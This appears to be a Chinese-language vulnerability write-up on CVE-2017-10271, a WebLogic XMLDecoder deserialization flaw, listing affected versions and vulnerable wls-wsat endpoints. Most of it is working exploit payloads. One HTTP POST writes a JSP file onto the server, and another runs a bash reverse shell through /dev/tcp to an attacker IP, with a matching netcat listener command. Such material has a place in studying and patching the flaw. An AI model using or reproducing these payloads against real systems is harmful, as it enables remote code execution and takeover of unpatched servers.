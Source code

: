 ## 简介

该漏洞利用了Weblogic中的WLS Security组件对外提供的webservice服务，使用组件中的XMLDecoder来解析用户传入的XML数据，解析过程中会有反序列化的过程(XML自身就是序列化过的数据，不需要序列化XML内容就可以被反序列化），一旦在XML中有创建类对象示例的恶意代码，就可以利用该对象的方法执行恶意代码（包括写入一句话木马，执行反弹shell指令等，要看该对象的方法的作用是写入数据到某个文件还是直接执行指令）。

## 漏洞影响版本

10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0

## 漏洞触发地址

```
`/wls-wsat/CoordinatorPortType` 
`/wls-wsat/RegistrationPortTypeRPC`
`/wls-wsat/ParticipantPortType` 
`/wls-wsat/RegistrationRequesterPortType` 
`/wls-wsat/CoordinatorPortType11`
`/wls-wsat/RegistrationPortTypeRPC11` 
`/wls-wsat/ParticipantPortType11`
`/wls-wsat/RegistrationRequesterPortType11`
```

## 测试代码

通过改造HTTP为POST类型，利用CoordinatorPortType组件的java.beans.XMLDecoder类中的java.io.PrintWriter类构建一个实例，该实例的目标地址为servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp，并调用println方法向该目标地址中写入out.print("test");在通过web访问该文件时就会执行该文件中的代码。

通过访问http://ip:port/bea_wls_internal/test.jsp即可访问到该网页。

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println">
<string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![v2-96b7b2098584b2cf034cbeb6e96c696e_1440w](CVE-2017-10271.assets/v2-96b7b2098584b2cf034cbeb6e96c696e_1440w-1712922274254.webp)

## 攻击代码（反弹shell）

监听本地端口

nc -l -p 7089

利用burp更改数据包，反弹shell

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.206.132/7089 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

